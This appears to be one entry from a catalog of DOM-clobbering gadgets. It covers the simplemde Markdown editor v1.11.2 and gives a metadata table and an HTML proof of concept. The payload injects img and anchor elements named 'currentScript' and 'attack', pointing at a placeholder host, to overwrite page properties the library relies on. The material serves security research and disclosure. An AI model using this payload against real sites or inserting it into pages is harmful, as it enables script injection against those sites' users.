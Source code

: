 ## simplemde-markdown-editor

### Meta

+ Library: simplemde
+ Version: v1.11.2
+ Stars: 9.9K
+ Fingerprint: `typeof window.simplemde !== undefined`
+ Input: Type
+ Sanitizer: N/A
+ Capability: Any named property
+ CVE: N/A
+ Status: N/A

### Library

https://github.com/sparksuite/simplemde-markdown-editor

### PoC

```html
<!--Library-->
<link rel="stylesheet" href="https://cdn.jsdelivr.net/simplemde/latest/simplemde.min.css">
<script src="https://cdn.jsdelivr.net/simplemde/latest/simplemde.min.js"></script>

<textarea id="sample">Hi</textarea>
<script>
var simplemde = new SimpleMDE({ element: document.getElementById("sample") });
</script>
<!--Library-->


<!--Payload-->
<img name="currentScript" src="https://xxx.xxx.xxx">
<img name="attack" src="https://xxx.xxx.xxx">
<a name="attack" href="https://xxx.xxx.xxx">AAA</a>
<!--Payload-->
```